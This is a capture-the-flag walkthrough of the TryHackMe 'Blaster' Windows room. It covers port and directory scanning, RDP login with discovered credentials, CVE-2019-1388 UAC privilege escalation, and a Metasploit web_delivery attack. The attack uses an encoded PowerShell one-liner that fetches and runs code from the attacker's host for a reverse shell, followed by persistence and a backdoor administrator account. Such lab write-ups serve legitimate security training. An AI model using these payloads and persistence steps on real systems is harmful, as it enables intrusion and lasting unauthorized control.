


# Blaster

.png>)

***

## Intro

| Room Info            |  |
| -------------------- | ----------------------------------------------- |
| 🔗 Name              | [Blaster](https://tryhackme.com/room/blaster)   |
| 🎯 Target IP         | `10.10.27.22`                                   |
| 📈 Difficulty level  | 🟢Easy                                          |
| 💲 Subscription type | Free                                            |
| 🪟 OS                | Windows                                         |

***

## Recon

```bash
mkdir blaster
cd blaster
nmap 10.10.27.22
	80/tcp   open  http
	3389/tcp open  ms-wbt-server

nmap -sV -sC -Pn -oA blaster 10.10.27.22
```

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-10T15:30:58+00:00
|_ssl-date: 2023-05-10T15:31:02+00:00; +3s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-09T15:25:48
|_Not valid after:  2023-11-08T15:25:48
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 2s
```

Discover IIS Webserver hidden directories

```bash
# FFUF
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.27.22/FUZZ
	retro  [Status: 301, Size: 149, Words: 9, Lines: 2]
	Retro  [Status: 301, Size: 149, Words: 9, Lines: 2]

# GOBUSTER
gobuster dir -u http://10.10.27.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

	/retro  (Status: 301) [Size: 148] [--> http://10.10.27.22/retro/]
```

Navigate to

* `http://10.10.27.22/Retro/`
* `http://10.10.27.22/retro/index.php/2019/12/09/ready-player-one/`

> 📌 `Wade`:`parzival`

```bash
xfreerdp /u:Wade /p:parzival /v:10.10.27.22

# or use Remmina
```

🚩 Read **`user.txt`** file.

```bash
THM{H***************
```

### Local Recon

Check Internet Explorer history.

* `CVE-2019-1388` - Windows Privilege Escalation Through UAC
* `hhupd.exe` on desktop

***

## Privilege Escalation

* Run `hhupd.exe` to exploit the privilege escalation vulnerability present in the Windows Certificate Dialog box, a bug in the UAC mechanism
  * `cmd` user: `nt authority\system`


🚩 Read **`root.txt`** file.

```bash
cd c:\Users\Administrator\Desktop
type root.txt

THM{C**************************
```



***

## Exploitation

```bash
msfconsole -q
```

```bash
use exploit/multi/script/web_delivery
show targets
set target 2
set payload windows/meterpreter/reverse_http
set LHOST tun0
set LPORT 9090
run -j
```

* Run the following command on the target machine
  * copy it in a file and host the file on a Python http server

```bash
nano payload

powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABwAE0AaQBSAE0APQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAA7AGkAZgAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAFAAcgBvAHgAeQBdADoAOgBHAGUAdABEAGUAZgBhAHUAbAB0AFAAcgBvAHgAeQAoACkALgBhAGQAZAByAGUAcwBzACAALQBuAGUAIAAkAG4AdQBsAGwAKQB7ACQAcABNAGkAUgBNAC4AcAByAG8AeAB5AD0AWwBOAGUAdAAuAFcAZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARwBlAHQAUwB5AHMAdABlAG0AVwBlAGIAUAByAG8AeAB5ACgAKQA7ACQAcABNAGkAUgBNAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA4AC4ANgA1AC4ANAA4ADoAOAAwADgAMAAvAGYAaABGAHQATQBpAC8AbQAxAEQAMwBWADIAawBpAGkAJwApACkAOwBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAOAAuADYANQAuADQAOAA6ADgAMAA4ADAALwBmAGgARgB0AE0AaQAnACkAKQA7AA==
```

```bash
python -m http.server
```

* Open the link on the target machine
  * `http://10.18.65.48:8000/payload`
* Copy the code and paste it in the opened `CMD`
* Check the spawned reverse shell in Metasploit


```bash
getuid
sysinfo
```

```bash
Server username: NT AUTHORITY\SYSTEM

Computer        : RETROWEB
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

***

## Persistence

```bash
run persistence -X # Deprecated and not working

# Manual
background
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
set SESSION 1
set SERVICE_NAME spool1
run
```

```bash
# Regain access using the persistence service
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
run
```

* _Windows Defender blocked the persistence service payload in this case_



* Add a new user instead and give it administrative privileges

```bash
net user syselement pwd12345 /add

net localgroup "Administrators" syselement /add

net localgroup "Administrators"
```

***
